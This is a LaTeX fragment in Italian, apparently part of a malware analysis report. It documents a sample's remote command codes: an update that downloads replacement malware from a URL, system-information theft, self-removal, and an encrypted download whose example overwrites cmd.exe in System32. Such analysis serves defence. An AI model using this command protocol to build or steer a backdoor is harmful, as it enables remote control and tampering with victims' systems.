 \documentclass[
    a4paper, %
    11pt %
]{article}
\begin{document}
\begin{itemize}
                EsempioComando2: \texttt{3|sc query wuauserv}

            \item \textbf{plugindl} \texttt{???}

                ???

            \item \textbf{Update} \textit{Rimpiazza al volo lo stub (sample.exe) sul filesystem, lancia il nuovo processo e termina quello corrente}

                UserCode: "5" (\texttt{functionCode = 5})

                Argomenti aggiuntivi?: Si

                Arg1[Obbligatorio]: URL da cui reperire il malware aggiornato

                EsempioComando1: \texttt{5|http://strange.domain.com/res/toys.png}

            \item \textbf{SysInfo} \textit{Invia varie informazioni sul sistema}

                UserCode: "6" (\texttt{functionCode = 6})

                Argomenti aggiuntivi?: No

                EsempioComando1: \texttt{6}

            \item \textbf{Uninstall} \textit{Elimina lo stub (sample.exe) e termina il processo corrente}

                UserCode: "7" (\texttt{functionCode = 7})

                Argomenti aggiuntivi?: No

                EsempioComando1: \texttt{7}

            \item \textbf{EncDownload} \textit{Scarica file cifrato da server remoto, quindi decifralo}

                UserCode: "8" (\texttt{functionCode = 8})

                Argomenti aggiuntivi?: Si
                
                ArgSplitterToken: whitespace 
                
                Arg1[Obbligatorio]: URL server remoto
                
                Arg2[Obbligatorio]: Path file su PC locale

                EsempioComando1: \texttt{8|http://example.com/home/blob/img.png C:\textbackslash Windows\textbackslash System32\textbackslash cmd.exe}


\end{itemize}
\end{document}

